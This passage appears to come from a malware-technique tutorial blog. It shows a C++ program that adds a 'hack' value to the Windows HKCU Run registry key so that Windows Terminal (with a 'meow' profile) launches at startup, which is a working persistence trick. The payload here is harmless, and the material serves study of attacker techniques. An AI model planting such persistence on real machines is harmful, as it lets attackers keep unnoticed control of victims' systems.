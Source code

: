 ![malware](/assets/images/178/2025-09-22_11-14.png){:class="img-responsive"}    

As you can see, we got a default profile option `meow`     

Everything is worked perfectly as expected! =^..^=    

If we also want this to run at system startup, we can add the Windows terminal via using [Run/RunOnce registry persistence trick](/tutorial/2022/04/20/malware-pers-1.html) something like this:    

```cpp
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // Windows Terminal app
  const char* exe = "C:\\Users\\User\\AppData\\Local\\Microsoft\\WindowsApps\\wt.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```
